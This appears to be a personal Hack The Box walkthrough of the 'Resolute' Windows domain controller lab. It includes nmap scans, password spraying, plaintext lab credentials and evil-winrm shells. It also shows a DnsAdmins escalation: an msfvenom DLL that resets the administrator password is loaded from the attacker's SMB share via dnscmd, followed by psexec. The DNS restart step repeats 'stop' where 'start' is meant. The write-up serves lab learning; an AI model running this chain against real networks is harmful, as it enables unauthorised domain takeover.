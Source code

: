 # HTB Resolute

Basic nmap scan:
```
Nmap scan report for 10.10.10.169
Host is up (0.15s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49714/tcp open  unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 365.07 seconds
          Raw packets sent: 66234 (2.914MB) | Rcvd: 67252 (2.733MB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.10.169
Host is up (0.12s latency).
Not shown: 989 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
53/tcp  open  domain      Simple DNS Plus
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-04-05 00:35:29Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap        Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http  Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap        Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/4%OT=53%CT=1%CU=42780%PV=Y%DS=2%DC=T%G=Y%TM=642CC0D8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%CI=I%TS=A)SEQ(SP=106%GCD
OS:=1%ISR=108%TS=A)OPS(O1=M53ANW8ST11%O2=M53ANW8ST11%O3=M53ANW8NNT11%O4=M53
OS:ANW8ST11%O5=M53ANW8ST11%O6=M53AST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%
OS:W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53ANW8NNS%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q
OS:=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%
OS:A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%
OS:DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD
OS:=G)IE(R=Y%DFI=N%T=80%CD=Z)
Uptime guess: 0.003 days (since Tue Apr  4 18:25:00 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h27m01s, deviation: 4h02m30s, median: 7m00s
| smb-security-mode: 
|  account_used: guest
|  authentication_level: user
|  challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|  311: 
|_    Message signing enabled and required
| smb2-time: 
|  date: 2023-04-05T00:36:03
|_  start_date: 2023-04-05T00:32:20
| smb-os-discovery: 
|  OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|  Computer name: Resolute
|  NetBIOS computer name: RESOLUTE\x00
|  Domain name: megabank.local
|  Forest name: megabank.local
|  FQDN: Resolute.megabank.local
|_  System time: 2023-04-04T17:36:00-07:00
TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1  51.04 ms 10.10.16.1
2  51.10 ms 10.10.10.169
NSE: Script Post-scanning.
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.36 seconds
          Raw packets sent: 1476 (76.180KB) | Rcvd: 4649 (192.608KB)
```

SMB enumeration shows shares are locked down:
![](./_resources/HTB_Resolute.resources/image.png)

When enumerating users with CME, I found the following users. One user has a password noted in the comment section as well.:
![](./_resources/HTB_Resolute.resources/image.1.png)

```
Uname: marko
Passwd: Welcome123!
```

The above password did not work for Marko. It may be due to the fact that the comment is old and he already created a new password. With this in mind, I decided to try this password on all users after adding the other usernames to a new list. I then performed the dictionary attack with CME like so.:
```
└─$ crackmapexec smb 10.10.10.169 -u userlist.txt -p Welcome123!
```

![](./_resources/HTB_Resolute.resources/image.2.png)

Valid credentials:
```
Uname: melanie
Passwd: Welcome123!
```

I was then able to access some SMB shares with Read-only access as show below.:
```
smbmap -d megabank.local -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```

![](./_resources/HTB_Resolute.resources/image.3.png)

After checking the SMB shares, I did not find anything of value. I proceeded to then establish a remote shell with evil-winrm with melanie's credentials.:
![](./_resources/HTB_Resolute.resources/image.4.png)

User.txt hash:
![](./_resources/HTB_Resolute.resources/image.5.png)
Next, I had to recall what the correct command was to see all files in a directory including hidden ones. Apparently, the correct command is:
```
dir -force
```

In using this command, I found the PSTranscripts directory which had some sensitive information.:
![](./_resources/HTB_Resolute.resources/image.6.png)

New credentials:
```
Uname: ryan
Passwd: Serv3r4Admin4cc123!
```

I was then able to evil-winrm as ryan in a new session.:
![](./_resources/HTB_Resolute.resources/image.7.png)

In this case, Ryan is a member of the following groups.:
![](./_resources/HTB_Resolute.resources/image.8.png)

When researching domain users group, it appears Ryan is a member of the Contractors group and the DomainAdmins group as well. This can also be seen when using bloodhound:
![](./_resources/HTB_Resolute.resources/image.9.png)
When researching the DomainAdmins group for privilege escalation, I found the following.: <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges>

It is also worth noting that the DNS service runs with NT AUTH\\SYSTEM privileges. This is part of the reason why I can escalate privileges with a loaded custom DLL file. I just need to change the path to this DLL file and restart the service for this to work.

First, I generated a malicious .dll payload with msfvenom using:
```
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

Next, I hosted the .dll file with Impacket's SMB script:
```
impacket-smbserver share ./
```

Next, I set the remote .dll file in the target Windows machine's registry with the following command:
```
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.16.2\share\da.dll            <----------------- NOTE: The "share" directory is mandatory as I received errors without it.
```

Next, I stopped and started the DNS service like so on the target Windows machine:
```
sc.exe stop dns
sc.exe stop dns

NOTE: You will see a connection attempt on the SMB server's side without errors.
```

Finally, I just access the machine using Impacket's PSExec script like so and then entered the password (set with msfvenom) when prompted.:
```
impacket-psexec megabank.local/Administrator@10.10.10.169
```

As a result, I got a privileges shell with Administrator permissions and was able to get the root.txt file.:

![](./_resources/HTB_Resolute.resources/image.10.png)

**###ROOTED!!!###**
